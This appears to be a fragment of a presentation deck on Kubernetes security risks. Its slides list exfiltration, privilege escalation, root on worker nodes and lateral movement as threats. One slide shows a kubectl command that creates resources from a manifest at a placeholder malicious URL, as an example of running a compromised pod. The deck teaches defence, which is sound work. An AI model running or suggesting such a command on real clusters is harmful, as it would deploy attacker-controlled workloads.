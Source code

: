 ^
To be secure, we need to know how.
So what are our risks.

---

# Exfiltration of sensitive data

---

# [fit] Elevate privileges
# [fit] inside Kubernetes to 
# [fit] access all workloads

---

# [fit] Potentially Gain root access 
# [fit] to the Kubernetes worker nodes

---

# [fit] Perform lateral 
# [fit] network movement 
# [fit] outside the cluster

---

# [fit] Run compromised Pod

`kubectl create -f http://Insert_Malicious_URL_here/FakeApp.yaml`

---

# Social Engineering

## Example

---
